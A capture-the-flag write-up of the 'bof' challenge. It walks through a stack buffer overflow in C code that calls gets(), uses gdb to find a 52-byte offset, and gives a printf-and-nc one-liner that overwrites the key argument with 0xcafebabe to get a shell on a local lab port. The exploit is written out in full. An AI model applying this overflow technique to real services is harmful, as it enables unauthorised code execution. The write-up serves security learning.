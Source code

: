 ## bof
This time, we have a readme on the home, it tells us that "bof" is running on a port on localhost. Taking a look at the source code, we see that this is a classic buffer overflow situation.
## Solution
```c
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);       // smash me!        
	if(key == 0xcafebabe){
		setregid(getegid(), getegid());
		system("/bin/sh");        }
	else{
		printf("Nah..\n");
	}
}
```
All that this program do is read input and store it on the overflowme[] buffer. Then it checks if the argument passed is 0xcafebabe, if so, it gives us a shell. That's what we want, so, what is the value passed to the function?
```c
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
Oh, the argument value was 0xdeadbeef, so we cannot get a shell, too bad...<br>
Except... func() reads input using **gets()**. The thing about **gets()** is that it doesn't check if the input is out of binds, that means that we can write on memory outside of the buffer! We shouldn't do it randomly though, first we have to find a compelling place to write to. We can use gdb for that purpose.
```bash
gdb ./bof
```
Analizing the assembly, we can find the addresses of both the overflowme buffer and the key.
```
buffer = ebp-0x2c
key = ebp+0x8
```
The difference between them is 52 bytes, which means that, if we write 52 bytes to the input, we can start to rewrite the value in key, giving it the value of 0xcafebabe. Since we know that the binary is running under "nc 0 9000", we can pass the exact bytes we want with
```bash
(printf "a%.0s" {1..52} && printf "\xbe\xba\xfe\xca"; cat) | nc 0 9000
```
We get a shell, now all we need to do is cat the flag. Success! 
